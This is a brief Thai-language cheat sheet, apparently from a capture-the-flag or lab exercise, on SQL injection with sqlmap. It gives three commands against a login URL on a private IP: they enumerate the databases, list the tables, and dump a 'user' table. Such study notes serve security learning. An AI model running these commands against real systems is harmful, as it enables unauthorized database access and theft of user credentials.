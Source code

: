 #web
- tool ไว้ทำ sql injection
- หา url ที่มี get/pose
- sqlmap -u "`http://10.10.212.122/ai/includes/user_login?email=fsgdf&password=sdasaf`" --dbs : ดู database ทั้งหมด
- sqlmap -u "`http://10.10.212.122/ai/includes/user_login?email=fsgdf&password=sdasaf`" -D `ai` --tables : ดู tables ทั้งหมดใน database ai
- sqlmap -u "`http://10.10.212.122/ai/includes/user_login?email=fsgdf&password=sdasaf`" -D `ai` -T `user` --dump : ดู data ทั้งหมดใน table user จาก database ai